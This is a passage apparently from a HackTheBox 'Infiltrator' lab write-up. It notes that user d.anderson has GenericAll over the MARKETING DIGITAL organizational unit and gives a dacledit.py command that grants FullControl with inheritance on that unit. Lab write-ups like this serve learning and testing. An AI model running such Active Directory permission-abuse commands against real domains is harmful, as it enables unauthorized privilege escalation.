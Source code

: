 The user D.ANDERSON@INFILTRATOR.HTB has GenericAll privileges to the OU MARKETING DIGITAL@INFILTRATOR.HTB.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

![[Pasted image 20240904201526.png]]

```bash
dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' infiltrator.htb/d.anderson -k -no-pass -dc-ip 10.129.205.0 
```

